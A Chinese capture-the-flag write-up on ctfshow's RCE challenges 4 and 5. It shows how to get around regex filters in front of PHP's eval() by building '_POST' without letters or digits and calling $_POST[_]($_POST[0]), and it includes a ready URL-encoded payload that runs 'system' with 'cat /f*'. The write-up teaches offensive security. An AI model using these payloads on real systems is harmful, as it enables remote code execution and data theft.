 ## RCE挑战4

把1过滤掉了，限制长度84

```php
if (!preg_match("/[a-zA-Z1-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){
            eval($ctfshow);
        }
```

把上题的1改成0构造

```php
$_=((_/_).$_)[0]; //同上，取NAN的第一个字母N
$_++; //O
$__=$_.$_++; //这里进行了++的，所以$_等于P, $__=PO
$_++; // Q
$_++; // R
$_++; // S
$_=_.$__.$_.++$_; //这里也进行了++的，所以最后一位是T, $_ = _POST
$$_[_]($$_[0]); // $_POST[_]($_POST[0]);
```

payload 

```php
ctf_show=%24_%3D((_%2F_)._)%5B0%5D%3B%24_%2B%2B%3B%24__%3D%24_.%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24__.%24_.%2B%2B%24_%3B%24%24_%5B_%5D(%24%24_%5B0%5D)%3B&_=system&0=cat /f*
```


## RCE挑战5

过滤了0，限制长度73

```php
if (!preg_match("/[a-zA-Z0-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){
            eval($ctfshow);
        }
```

原来取下标不需要通过`''==_`的布尔值01来取`N`,`A`，可以用未定义常量，php会返回`Warning`，取0下标元素出来

```php
<?php
$_ = ((_/_)._)[_];
# Warning: Illegal string offset '_'
# string(1) "N"
var_dump($_);
```

题目调用的`phpinfo()`函数里可以看到安装并开启了`gettext`扩展，这个扩展可以用`_()`来调用`gettext`函数，转化成字符串

```php
$_=_(_/_)[_];  //相当于gettext(0/0)[0],得到N
```
